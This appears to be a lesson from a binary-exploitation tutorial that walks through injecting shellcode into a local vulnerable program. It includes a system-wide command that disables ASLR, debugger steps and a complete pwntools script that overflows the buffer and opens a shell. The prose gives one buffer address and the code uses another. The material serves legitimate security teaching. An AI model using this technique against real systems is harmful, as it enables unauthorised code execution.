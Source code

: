 ```yaml
---
description: Running your own code
---
```


# Shellcode

In real exploits, it's not particularly likely that you will have a `win()` function lying around - shellcode is a way to run your **own** instructions, giving you the ability to run arbitrary commands on the system.

**Shellcode** is essentially **assembly instructions**, except we input them into the binary; once we input it, we overwrite the return pointer to hijack code execution and point at our own instructions!

> Note: I promise you can trust me but you should never _ever_ run shellcode without knowing what it does. Pwntools is safe and has almost all the shellcode you will ever need.

The reason shellcode is successful is that Von Neumann architecture \(the architecture used in most computers today\) does not differentiate between **data** and **instructions** - it doesn't matter where or what you tell it to run, it will attempt to run it.  Therefore, even though our input is data, the computer _doesn't know that_ - and we can use that to our advantage.

{% file src="../../.gitbook/assets/shellcode.zip" caption="Shellcode" %}

### Disabling ASLR

ASLR is a security technique, and while it is not specifically designed to combat shellcode, it involves randomising certain aspects of memory \(we will talk about it in much more detail later\). This randomisation can make shellcode exploits like the one we're about to do more less reliable, so we'll be disabling it for now.

```text
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

> Again, you should never run commands if you don't know what they do.

### Finding the Buffer in Memory

Let's debug `vuln` using `radare2` and work out where in memory the buffer starts; this is where we want to point the return pointer to.

```text
$ r2 -d -A vuln

[0xf7fd40b0]> s sym.unsafe ; pdf
[...]
; var int32_t var_134h @ ebp-0x134
[...]
```

This value that gets printed out is a **local variable** - due to its size, it's fairly likely to be the buffer. Let's set a breakpoint just after `gets()` and find the exact address.

```text
[0x08049172]> dc
Overflow me
<<Found me>>                    <== This was my input
hit breakpoint at: 80491a8
[0x080491a8]> px @ ebp - 0x134
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0xffffcfb4  3c3c 466f 756e 6420 6d65 3e3e 00d1 fcf7  <<Found me>>....

[...]
```

It appears to be at `0xffffcfd4`; if we run the binary multiple times, it should remain where it is \(if it doesn't, make sure ASLR is disabled!\).

### Finding the Padding

Now we need to calculate the padding until the return pointer. We'll use the De Bruijn sequence as explained in the previous blog post.

```text
$ ragg2 -P 400 -r
<copy this>

$ r2 -d -A vuln
[0xf7fd40b0]> dc
Overflow me
<<paste here>>
[0x73424172]> wopO `dr eip`
312
```

Wehey the padding is 312 bytes!

### Putting it all together

In order for the shellcode to be correct, we're going to set `context.binary` to our binary; this grabs stuff like the arch, os and bits and enables pwntools to provide us with accurate shellcode.

```python
from pwn import *

context.binary = ELF('./vuln')

p = process()
```

> Note: We can use just `process()` because once `context.binary` is set it is assumed to use that process

Now we can use pwntools' awesome shellcode functionality to make it _incredibly_ simple.

```python
payload = asm(shellcraft.sh())          # The shellcode
payload = payload.ljust(312, b'A')      # Padding
payload += p32(0xffffcfb4)              # Address of the Shellcode
```

Yup, that's it. Now let's send it off and use `p.interactive()`, which enables us to communicate to the shell.

```python
log.info(p.clean())

p.sendline(payload)

p.interactive()
```

> If you're getting an EOFError, print out the shellcode and try to find it in memory - the stack address may be wrong

```text
$ python3 exploit.py
[*] 'vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[+] Starting local process 'vuln': pid 3606
[*] Overflow me
[*] Switching to interactive mode
$ whoami
ironstone
$ ls
exploit.py  source.c  vuln
```

And it works! Awesome.

### Final Exploit

```python
from pwn import *

context.binary = ELF('./vuln')

p = process()

payload = asm(shellcraft.sh())          # The shellcode
payload = payload.ljust(312, b'A')      # Padding
payload += p32(0xffffcfb4)              # Address of the Shellcode

log.info(p.clean())

p.sendline(payload)

p.interactive()
```

### Summary

* We injected shellcode, a series of assembly instructions, when prompted for input
* We then hijacked code execution by overwriting the saved return pointer on the stack and modified it to point to our shellcode
* Once the return pointer got popped into EIP, it pointed at our shellcode
* This caused the program to execute our instructions, giving us \(in this case\) a shell for arbitrary command execution

